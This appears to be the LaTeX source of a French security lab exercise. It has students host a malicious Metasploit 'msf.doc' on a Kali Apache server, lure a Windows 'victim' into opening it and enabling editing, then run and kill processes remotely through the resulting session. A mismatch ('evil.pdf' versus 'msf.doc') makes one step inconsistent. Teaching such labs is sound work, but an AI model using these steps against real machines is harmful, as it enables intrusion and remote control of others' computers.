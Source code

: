\documentclass{article}
\begin{document}
\begin{enumerate}
\item On souhaite transférer ce fichier malveillant sur la machine de la victime. Comment procéder ? Nous allons utiliser Apache pour accomplir cela. Ouvrez un terminal en tant que root sur Kali et exécutez les commandes suivantes :
    \begin{itemize}
        \item \texttt{service apache2 start} pour démarre le serveur Apache
        \item \texttt{cp <chemin/msf.doc> /var/www/html} : que fait cette commande ? 
        \item \texttt{ls /var/www/html} : vous devriez voir le fichier \texttt{evil.pdf} listé dans ce répertoire.
    \end{itemize}
    \begin{itemize}
        \item Depuis la machine Windows, ouvrez un navigateur et saisissez l'URL suivante : \texttt{IP\_KALI/msf.doc} afin de télécharger et installer le fichier \texttt{msf.doc} , ouvrir ce dernier et cliquer sur "activer la modification".
    \end{itemize}

\item Que remarquez-vous sur la machine Kali Linux ? Cliquer sur entrer et exécutez les commandes suivantes sur la machine Kali :
    \begin{itemize}
        \item \texttt{pwd} 
        \item \texttt{execute -f notepad.exe} 
        \item \texttt{ps}  
        \item \texttt{kill <PID>} : permet de tuer n'importe quel processus actif sur la machine Windows depuis Kali en spécifiant son PID (Process ID).
    \end{itemize}
\end{enumerate}
\end{document}
